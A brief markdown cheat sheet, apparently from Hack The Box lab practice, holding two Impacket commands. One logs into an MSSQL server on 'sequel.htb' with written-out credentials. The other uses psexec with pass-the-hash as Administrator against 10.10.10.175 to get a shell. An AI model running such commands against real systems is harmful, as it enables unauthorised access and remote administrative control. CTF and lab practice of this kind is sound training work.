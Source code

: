 ## mssql 

```sh
impacket-mssqlclient sequel.htb/PublicUser:GuestUserCantWrite1@dc.sequel.htb
```

**note** add dc name in host file 


## psexec `to get a shell`
```sh
impacket-psexec Administrator@10.10.10.175 -hashes lm:ntlm
```
